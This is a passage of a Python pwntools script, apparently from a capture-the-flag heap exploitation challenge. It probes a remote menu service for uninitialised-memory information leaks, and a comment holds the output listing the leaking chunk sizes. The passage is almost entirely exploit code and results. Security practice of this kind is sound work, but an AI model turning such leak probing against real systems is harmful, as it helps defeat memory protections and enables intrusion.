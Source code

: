 ```python
	if need_newline:
		sla("Content:", val)
	else:
		hi.sendafter("Content:", val)

def show(chunk_id):
	sla("Your choice: ", str(3))
	sla("ID:", str(chunk_id))
	return hi.recvline().strip().split("Content: ")[-1]

def free(chunk_id):
	sla("Your choice: ", str(4))
	sla("ID:", str(chunk_id))

def open_file():
	sla("Your choice: ", str(5))
	sla("Your choice: ", str(1))
	sla("Your choice: ", str(3))

def read_file(chunk_id, size):
	sla("Your choice: ", str(5))
	sla("Your choice: ", str(2))
	sla("ID:", str(chunk_id))
 	sla("Size:", str(size))
	sla("Your choice: ", str(3))

cnt = 0
hi = remote(HOST, PORT)
sla = hi.sendlineafter
for i in range(0x80, 0x2000, 0x8):
	if cnt == 10: # only 10 heap chunks can be allocated
		context.log_level = "error"
		sla("Your choice: ", str(6))
		hi.close()
		hi = remote(HOST, PORT)
		sla = hi.sendlineafter
		cnt = 0
		context.log_level = "info"

	alloc(i, i)
	edit(i, "A" * i)
	leak = show(i)[i:]
	if leak != "":
		leak = u64(leak.ljust(8, p8(0)))
		log.info("size 0x%04x can be usable to info leak( 0x%016x )" % (i, leak))

	cnt += 1

hi.close()

'''
[+] Opening connection to 192.168.0.18 on port 6677: Done
[*] size 0x0088 can be usable to info leak( 0x00005de64b3b5de3 )
[*] size 0x0098 can be usable to info leak( 0x00005de54b3b5de3 )
[*] size 0x00a8 can be usable to info leak( 0x00005de44b3b5de3 )
[*] size 0x00b8 can be usable to info leak( 0x00005de34c3b5de4 )
[*] size 0x00c8 can be usable to info leak( 0x00005de24c3b5de4 )
[*] size 0x00d8 can be usable to info leak( 0x00002e9102b2a6f5 )
[*] size 0x00e8 can be usable to info leak( 0x00002e9012b2a6e5 )
[*] size 0x00f8 can be usable to info leak( 0x00002e8f02b2a6f5 )
[*] size 0x0108 can be usable to info leak( 0x00002e8e07b2a6f0 )
[*] size 0x0118 can be usable to info leak( 0x00002e8de5b3a613 )
[*] size 0x0128 can be usable to info leak( 0x0000ceb77fd0cded )
```